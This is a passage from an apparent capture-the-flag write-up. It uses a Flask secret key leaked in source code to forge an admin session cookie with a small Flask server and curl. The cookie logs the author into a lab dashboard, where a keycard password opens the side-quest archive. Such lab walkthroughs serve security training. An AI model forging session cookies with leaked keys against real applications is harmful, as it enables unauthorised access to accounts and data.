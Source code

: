 While the credentials from the source code (**admin:securepassword**) do not work, there is a possibility that the application still uses the same `secret_key` for session management. This means we might be able to log in to the application by forging a cookie.

The easiest way to do this would be to write our own `Flask` server that generates a cookie in the same way:

```python
from flask import Flask, session

app = Flask(__name__)

app.secret_key = "@09JKD0934jd712?djD"

@app.route("/", methods=["GET"])
def index():
    session["logged_in"] = True
    session["username"] = "admin"
    return "", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

Now, running the server and making a request to it, we can retrieve the `session` cookie.

```bash
$ curl -v 127.0.0.1:8000 2>&1 | grep Set-Cookie
< Set-Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Z0_t5Q.ApkOxFbyF5lSety4NPaIel1OzSg; HttpOnly; Path=/
```

After setting our cookie and visiting `http://10.10.209.9:8000/`, we are redirected to `/dashboard` as we were able to authenticate successfully.

![Web 8000 Dashboard](web_8000_dashboard.webp){: width="1200" height="600" }

Lastly, by checking the `Data` tab at `http://10.10.209.9:8000/data`, we discover the keycard with the password on it: `vK[REDACTED]LU`.

![Web 8000 Data](web_8000_data.webp){: width="1200" height="600" }

## Side Quest

Now that we have the password, we can begin the side quest by downloading the `aoc_sq_1.zip` from the **First Side Quest** machine and extracting the archive using the password from the keycard.

```bash
$ wget 'http://10.10.159.102/aoc_sq_1.zip'

$ unzip aoc_sq_1.zip
Archive:  aoc_sq_1.zip
[aoc_sq_1.zip] traffic.pcap password:
  inflating: traffic.pcap
 ```
